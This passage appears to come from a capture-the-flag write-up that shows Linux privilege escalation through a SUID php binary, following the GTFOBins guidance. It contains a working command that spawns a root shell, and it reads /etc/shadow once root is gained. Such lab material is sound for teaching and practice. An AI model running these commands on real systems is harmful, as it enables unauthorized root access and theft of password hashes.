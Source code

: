 ```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
```

- Go to [GTFOBins](https://gtfobins.github.io/) and check for [php SUID](https://gtfobins.github.io/gtfobins/php/#suid)

> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
>
> This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

# This will run /bin/sh as root user
```

```bash
whoami
id
	uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
	
cd /root
cat flag.txt
cat /etc/shadow
...
```
